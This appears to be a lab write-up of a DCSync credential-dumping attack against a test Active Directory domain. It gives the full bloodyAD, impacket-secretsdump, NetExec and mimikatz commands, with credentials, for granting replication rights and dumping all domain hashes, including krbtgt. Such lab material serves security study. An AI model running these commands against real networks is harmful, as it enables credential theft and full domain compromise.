

DCSync Attack (Remote Credential Dumping)
Hypothesis: An attacker who has compromised a user account with specific replication privileges can mimic a Domain Controller (DC) to request password data for any user in the domain via the Directory Replication Service (DRS) Remote Protocol. Concept: The DCSync attack abuses the legitimate replication mechanism used by DCs to synchronize data.
Objective: Identify or create an account with the necessary privileges to perform replication.
Step 1: Granting Privileges (bloodyAD)
Tool: bloodyAD
Command:
sudo bloodyAD --host 192.168.56.10 -d shinobi.local -u itachi_anbu01 -p Amaterasu@777 add dcsync luffy_d_monkey05
Findings: Using a Domain Admin account (itachi_anbu01), we successfully granted DCSync privileges to a standard user, luffy_d_monkey05.

Step 2: Verification (
BloodHound
)
Objective: Visualize the new attack path.
Findings: A fresh collection and analysis in BloodHound confirms that LUFFY_D_MONKEY05@SHINOBI.LOCAL now possesses the GetChangesAll and GetChanges (DCSync) edges pointing to the domain object SHINOBI.LOCAL.
With the permissions established, we executed the remote dump from our attacker machine.
Technique A: Impacket-Secretsdump
Tool: impacket-secretsdump
Command:
impacket-secretsdump 'shinobi.local'/'luffy_d_monkey05':'OnePiece#2024'@192.168.56.10
Findings: The tool utilized the DRSUAPI method to request secrets. We successfully dumped the hashes for the entire domain, including the high-value krbtgt account.
Technique B: NetExec (nxc)
Tool: NetExec (nxc)
Command:
nxc smb 192.168.56.10 -u 'luffy_d_monkey05' -p 'OnePiece#2024' --ntds
Findings: NetExec successfully identified the Domain Controller as "Pwn3d!" and dumped 26 NTDS hashes to the local database.
Objective: Perform a targeted DCSync dump for a specific high-value account (krbtgt) from a compromised workstation. Tool: mimikatz.exe
Command:
lsadump::dcsync /domain:shinobi.local /user:krbtgt
Findings: Mimikatz successfully pulled the full credential set for the krbtgt account, including the NTLM hash (0ae14ac...) and AES-256 keys.
The successful execution of a DCSync attack results in a Total Domain Compromise.
krbtgt NTLM hash and AES keys, an attacker can forge Golden Tickets, providing persistent, undetectable Domain Admin access for years.{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}